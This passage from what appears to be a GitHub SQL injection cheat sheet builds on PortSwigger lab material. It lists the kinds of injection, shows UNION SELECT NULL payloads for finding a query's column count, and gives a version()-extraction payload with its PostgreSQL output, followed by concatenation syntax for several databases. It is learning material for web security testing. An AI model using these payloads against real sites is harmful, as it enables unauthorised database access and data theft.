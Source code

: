 - [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data), where you can modify a SQL query to return additional results.
- [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic), where you can change a query to interfere with the application's logic.
- [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks), where you can retrieve data from different database tables.
- [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind), where the results of a query you control are not returned in the application's responses.

#

### In order to apply ***UNION*** commands with success we need to determine how many ***columns*** does the site/server uses
- See what server applies, `#` or `--`  // (**More info [here](https://github.com/th3knv/SQL_injection_cheatsheet/edit/main/README.md#union-attacks-tip)**)
```sql
` UNION SELECT NULL,NULL--
```
- And so on you add more `NULL` to test if needed. When you find the correct number of ***columns*** you will use them with the command you want to execute.
- Example, server needed 2 columns. I removed one column and replaced it with the command i want to execute. 
```sql
' UNION SELECT NULL,version()--
```
**Result:**
```sql
PostgreSQL 12.15 (Ubuntu 12.15-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit
```

***IF WE RUN*** the following command **without using the correct columns** you will see that you won't get any result or you may be blocked:
```sql
' UNION SELECT version()--
```
![image](https://github.com/th3knv/SQL_injection_cheatsheet/assets/76121926/168cccf6-ea84-4da5-8a47-5efac8021f8b)

#

## String concatenation
*You can concatenate together multiple strings to make a single string*

| Type | String |
| --- | --- |
| Oracle   | `'foo'\|\|'bar'` |
| Microsoft |  `'foo'+'bar'` |
| PostgreSQL | ` 'foo'\|\|'bar'`|
| MySQL | `'foo' 'bar'` <br> `CONCAT('foo','bar')`|
